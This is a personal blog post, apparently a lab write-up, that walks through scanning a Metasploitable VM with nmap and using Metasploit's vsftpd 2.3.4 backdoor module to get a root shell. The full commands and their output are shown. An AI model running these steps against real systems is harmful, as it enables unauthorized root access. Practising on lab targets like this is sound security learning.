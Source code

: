 <!--hacking, metasploit-->
# Let's hack stuff!

First and fore most, long time no see. The last couple of months flew by and I haven't really been in the mood of writing. 
Now I stated experimenting with Kali again and figured I might as well document it.

## The environment

I have set up a Kali VM - the atacker - and a Metasploitable VM - the target - in VirtualBox, that I will be using in this post. 
Kali is a Linux distro designed for hacking/pentesting and is loaded with tools. Metasploitable is an Ubuntu VM loaded with poorly 
configured applications that are easily hackable. I will post installation instructions in a future post, but most of it is dead 
simple and easily found online already. 

## The hack

This is a very simple exploit and took about ten minutes. The write up took significantly longer!

### Scanning the network

So after I have fired up my VMs I open the attacking machine and start a terminal. The first thing I want to do is find out where my 
target is so I turn to `nmap` and run (result edited):

    # nmap  192.168.56.0/24

    Nmap scan report for 192.168.56.103
    Host is up (0.00013s latency).
    Not shown: 977 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    23/tcp   open  telnet
    25/tcp   open  smtp
    53/tcp   open  domain
    80/tcp   open  http
    111/tcp  open  rpcbind
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    512/tcp  open  exec
    513/tcp  open  login
    514/tcp  open  shell
    1099/tcp open  rmiregistry
    1524/tcp open  ingreslock
    2049/tcp open  nfs
    2121/tcp open  ccproxy-ftp
    3306/tcp open  mysql
    5432/tcp open  postgresql
    5900/tcp open  vnc
    6000/tcp open  X11
    6667/tcp open  irc
    8009/tcp open  ajp13
    8180/tcp open  unknown
 
I can identify the target by the loads of open ports. This is a virtual network so there are no other machines on the network, this 
makes finding the target easier than it would be in the wild. In a real life scenario you would have to do some research in order 
to know what machine you should target.

Now that we have our target, `192.168.56.103` we can do a more advanced scan:

    # nmap -sV -O -p1-65535 192.168.56.103 > target
    
This will scan all the ports (`-p1-65535`) of particular machine, it will also try to detect the OS (`-O`) and further more it will try
to identify what versions the software listening to each open port are running (`-sV`). I save this to a file called `target` 
since I like to reference the scan later on.

In this excercise I am only interested in the fisrt service running on port 21, the second scan returns the following:

    21/tcp open  ftp     vsftpd 2.3.4

We now have a bit more information about our target. We know the application name and version number, this will help us find an exploit.

### Finding an exploit

There are two things we can do now, either scan the machine with a vulnerability scanner or search for an exploit manually. 
I decided to do a quick manual search and launch a vulnerability scanner if I didn't get quick results. 

Metasploit is our friend here so I launch it with `#msfconsole` and do the following:

    msf > search vsftpd

    Matching Modules
    ================

       Name                                  Disclosure Date  Rank       Description
       ----                                  ---------------  ----       -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution

Jackpot! We found a vulnerability with an excellent rating that affects the exact version our target is running. 
Let's find out more, again the output is edited for brevity.

    msf> info exploit/unix/ftp/vsftpd_234_backdoor 
    
    Name: VSFTPD v2.3.4 Backdoor Command Execution
    Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2011-07-03

    Description:
      This module exploits a malicious backdoor that was added to the 
      VSFTPD download archive. This backdoor was introduced into the 
      vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
      according to the most recent information available. This backdoor 
      was removed on July 3rd 2011.

This sounds really juicy so I will try it out. First I pick the exploit and show all options for it:

    msf > use exploit/unix/ftp/vsftpd_234_backdoor 
    msf exploit(vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST                   yes       The target address
       RPORT  21               yes       The target port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

This tells me that I need to set the target, denoted by RHOST. I set it and show all available payloads:

    msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(vsftpd_234_backdoor) > show payloads

    Compatible Payloads
    ===================

       Name               Disclosure Date  Rank    Description
       ----               ---------------  ----    -----------
       cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

There is only a single payload available so I select that and launch my attack!


    msf exploit(vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf exploit(vsftpd_234_backdoor) > exploit

    [*] Banner: 220 (vsFTPd 2.3.4)
    [*] USER: 331 Please specify the password.
    [+] Backdoor service has been spawned, handling...
    [+] UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.104:33322 -> 192.168.56.103:6200) at 2014-11-12 13:45:57 -0500

Succes we have a shell, and as an added bonus:

    whoami
    root
    
### Summary

This exploit was a very simple challenge and I could execute it with very simple tools. 
Hopefully the next service (SSH running on port 22) will be a little tougher.
